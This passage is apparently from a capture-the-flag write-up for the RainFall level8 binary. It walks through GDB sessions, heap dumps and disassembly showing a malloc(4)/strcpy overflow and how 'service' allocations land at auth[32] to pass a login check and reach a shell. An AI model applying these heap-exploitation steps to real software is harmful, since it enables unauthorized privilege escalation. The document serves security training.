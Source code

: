 ### 8. The Memory Allocation Bug Discovery
```bash
level8@RainFall:~$ gdb level8
(gdb) run
(nil), (nil) 
auth testuser
(0x804a008), (nil)
(gdb) x/40wx 0x804a008
0x804a008:      0x74736574      0x72657375      0x0000000a      0x00020ff1
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000

# auth[32] location would be at 0x804a008 + 32 = 0x804a028
# Currently contains 0x00000000 (would fail login check)
```

**Memory Analysis:**
- **auth buffer**: Contains "testuser" starting at 0x804a008
- **Heap layout**: Shows heap metadata (0x21 = 33 bytes allocated)
- **auth[32] location**: 0x804a028 currently contains 0x00000000
- **Login requirement**: auth[32] must be non-zero for shell access

## The Critical Vulnerability Discovery

### 9. Investigating malloc Size vs Usage
```bash
# In GDB, examining the auth allocation:
0x080485e4 <+128>:   movl   $0x4,(%esp)       # malloc(4) - only 4 bytes!
0x080485eb <+135>:   call   0x8048470 <malloc@plt>
# ... later:
0x0804863d <+217>:   call   0x8048460 <strcpy@plt>  # strcpy to 4-byte buffer!
```

**Critical Bug Discovery:**
- **malloc(4)**: Allocates only 4 bytes for username
- **strcpy()**: Copies username without size checking
- **Buffer overflow**: Username longer than 4 characters overflows heap
- **login check**: Accesses auth[32] (28 bytes beyond allocated buffer!)

### 10. Understanding Service Command Impact
```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
auth testuser
(0x804a008), (nil) 
service data1
(0x804a008), (0x804a018)
service data2  
(0x804a008), (0x804a028)
```

**Service Command Analysis:**
- **strdup() allocation**: Each service call allocates memory for the text
- **Heap pointer advancement**: Each allocation moves heap pointer forward
- **Address pattern**: Second service allocation at 0x804a028
- **Critical realization**: 0x804a028 = 0x804a008 + 32 = auth[32] location!

